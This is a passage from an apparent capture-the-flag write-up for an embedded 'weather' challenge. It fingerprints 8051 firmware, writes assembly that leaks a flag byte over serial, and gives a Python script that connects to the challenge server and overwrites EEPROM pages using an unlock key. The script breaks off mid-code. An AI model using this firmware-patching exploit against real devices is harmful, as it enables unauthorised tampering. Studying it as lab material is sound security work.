 
We use [cpu_rec](https://github.com/airbus-seclab/cpu_rec) and confirm that
the CPU is indeed running Intel 8051 instructions:
```
$ binwalk -% weather_eeprom.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             8051 (size=0x800, entropy=0.787004)
2048          0x800           None (size=0x800, entropy=0.269661)
```

### Patching the EEPROM in Ghidra

We open the dump in Ghidra. After taking some inspiration from some functions,
we are able to craft this assembly code:

```ASM
    MOV CCAP4L,#0       # 0 is the index of the flag
    MOV B,DAT_SFR_ef    # read flag byte
boucle:
    MOV A,TXDAT         # is serial ready?
    JZ  boucle
    MOV TXSTAT,B        # print byte to serial
```

During EEPROM programming, bits can only be cleared: it is impossible to
replace a `0` by a `1`.
We choose to put this piece of assembly code at `0x0a02` offset as it
is filled with `0xFF`. To run this code, we replace the data and code
before with `0x00` which is a NOP instruction.

Let's implement this in Python:
```Python
import socket
import time

for offset in range(256):
    s = socket.socket(socket.AF_INET)
    s.connect(("weather.2022.ctfcompetition.com", 1337))

    def program_page(page, content):
        i2c_addr = 101025  # 33 (eeprom)

        content = [0xFF - c for c in content]
        content = " ".join(map(str, content))

        # 165 90 165 90 is the EEPROM key
        req_len = 127
        s.send(f"w {i2c_addr} {req_len} {page} 165 90 165 90 {content}\n".encode())

        # wait for prompt
        s.settimeout(1)
        time.sleep(1)  # we cannot wait for characters as we are removing them
        try:
            rx = s.recv(1000)
        except socket.timeout:
            rx = None
        if rx and b"status: transaction completed" not in rx:
            print(rx[:1])

    wait_prompt(s)

    # New code
    content = [
        57, 0,
        0x75, 0xee, offset,  # MOV CCAP4L,#offset
```